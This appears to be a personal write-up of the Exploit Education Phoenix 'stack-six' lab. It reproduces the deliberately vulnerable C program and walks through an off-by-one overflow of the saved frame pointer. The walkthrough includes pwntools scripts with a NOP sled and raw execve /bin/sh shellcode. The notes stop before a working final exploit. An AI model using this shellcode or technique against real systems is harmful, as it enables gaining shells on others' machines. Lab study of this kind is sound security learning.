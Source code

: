 Source

```c
/*
 * phoenix/stack-six, by https://exploit.education
 *
 * Can you execve("/bin/sh", ...) ?
 *
 * Why do fungi have to pay double bus fares? Because they take up too
 * mushroom.
 */

#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

char *what = GREET;

char *greet(char *who) {
  char buffer[128];
  int maxSize;

  maxSize = strlen(who);
  if (maxSize > (sizeof(buffer) - /* ensure null termination */ 1)) {
    maxSize = sizeof(buffer) - 1;
  }

  strcpy(buffer, what);
  strncpy(buffer + strlen(buffer), who, maxSize);

  return strdup(buffer);
}

int main(int argc, char **argv) {
  char *ptr;
  printf("%s\n", BANNER);

#ifdef NEWARCH
  if (argv[1]) {
    what = argv[1];
  }
#endif

  ptr = getenv("ExploitEducation");
  if (NULL == ptr) {
    // This style of comparison prevents issues where you may accidentally
    // type if(ptr = NULL) {}..

    errx(1, "Please specify an environment variable called ExploitEducation");
  }

  printf("%s\n", greet(ptr));
  return 0;
}
```

# Solution

We can fill up the buffer and overflow a single byte after the `strdup`

![](_attachments/Pasted%20image%2020230402100358.png)

![](_attachments/Pasted%20image%2020230402100321.png)

Perhaps we can manipulate this overflow to point back to the address of our environment variable

To find that, I used the following steps:

![](_attachments/Pasted%20image%2020230402105904.png)

I had to add 0x10 to the address, to skip the `ExploitEducation=` prefix, which leaves us with the address:
`0x0x7fffffffef10`

Because we can manipulate the last byte of the "buffer"/return address, lets check if our code is somwhere within this range `0x0x7fffffffe500 - 0x0x7fffffffe5ff`:
![](_attachments/Pasted%20image%2020230402105729.png)


![](_attachments/Pasted%20image%2020230402112141.png)

So when we return, we need to see if we can manipulate the address to be 0x00007fffffffe510. This will jump to our shellcode, probably should include a couple of nop's to make it line up correctly and then some real shellcode. 

You can see if we changed to value of RBP to `0x..a0`, itll jump to our shellcode.

Lets mod the shellcode to be `\x90 * 126 + \x10`

```python
from pwn import *

buf = b"\x90" * 126 + "\xa0"

print(buf)
```

![](_attachments/Pasted%20image%2020230402110541.png)
When we now break at main, we can see RBP is now pointing to our shellcode.
Lets change up the shellcode to be a real one..

```python
from pwn import *

shellcode = '\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'

# build the payload - with a small nop sled
payload = b"\x90" * 20
payload += shellcode
payload += b"A" * (126 - len(payload))
# overwrite RIP byte
payload += b"\xa0"

print(payload)
```

So now when we run the program, it jumps into our shellcode

![](_attachments/Pasted%20image%2020230402112619.png)

However when running the program for real, we get a segfault.. probably due to changing environment variables and such, lets check it

![](_attachments/Pasted%20image%2020230402113510.png)
![](_attachments/Pasted%20image%2020230402113538.png)

Within GDB, the  _ environment variable is different.. causing different it to be at different memory addresses. Lets fix it up within gdb.

![](_attachments/Pasted%20image%2020230402113716.png)


I now have to go through and re-find all of the memory addresses and offsets :/

